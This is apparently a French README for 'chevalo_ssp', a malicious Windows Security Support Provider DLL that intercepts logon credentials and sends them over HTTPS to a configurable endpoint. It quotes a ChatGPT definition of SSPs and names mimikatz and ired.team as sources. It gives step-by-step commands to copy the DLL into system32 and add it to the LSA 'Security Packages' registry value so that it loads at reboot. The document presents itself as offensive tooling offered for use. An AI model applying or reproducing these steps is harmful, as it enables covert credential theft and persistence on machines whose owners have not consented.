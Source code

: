 # chevalo_ssp
# TL;DR

gros copier coller de 

https://github.com/gentilkiwi

et 

https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package

# kekesé

Chat GPT

```
SSP est l'abréviation de Security Support Provider (Fournisseur de support de sécurité). Dans le contexte de Windows, il s'agit d'un composant logiciel qui permet de gérer l'authentification et la sécurité des connexions réseau. Les SSP sont utilisés par les services d'authentification de Windows pour négocier les protocoles d'authentification avec les clients et les serveurs. Ils sont utilisés pour des connexions telles que les connexions de bureau à distance (RDP), les partages de fichiers et les services Web. Les exemples de SSP dans Windows incluent NTLM, Kerberos et Schannel.
```

chevalo_ssp est donc un ssp malveillant qui récupére les identifiants de connexion et les envois en https sur un endpoint choisie.

# configuration

il est possible de modifier:
* URL
* User-Agent

# injection



## injection via winapi

CF ssp_injector qui arrive bientot je l'ai ouvlier aux boulot donc a dans 2-3 semaines.

## injection via clef de registre

### step1

copier la dll dans system32.
> copy ssp.dll %systemroot%\system32\chevalo.dll

### step2

recupération de la clef de registre.

> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"


### step3

modification de la clef de registre.

Example volé a ired.team

>  reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0chevalo.dll" /t REG_MULTI_SZ /f

### step4

redémarrer la machine.
> reboot